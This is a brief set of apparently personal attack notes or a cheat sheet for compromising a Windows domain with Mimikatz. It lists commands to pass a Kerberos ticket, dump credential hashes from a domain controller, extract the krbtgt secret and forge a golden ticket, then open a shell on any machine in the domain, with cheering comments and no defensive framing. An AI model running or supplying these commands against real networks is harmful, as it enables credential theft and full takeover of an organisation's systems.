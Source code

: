 Now we can impersonate the ticket.  Recommend using an admin ticket...duh
	`kerberos::ptt <ticket>`
IF YOU ARE ON A DC, DUMP THE HASHES!!!
	`lsadump::lsa /patch`

You can also create a golden ticket on a DC:
	`lsadump::lsa /inject /name:krbtgt`

	kerberos::golden /user: /domain: /sid: /krbtgt: /id:`

Then you can access any machine in the domain!!!
`misc::cmd`
`\\MACHINE1 cmd.exe`
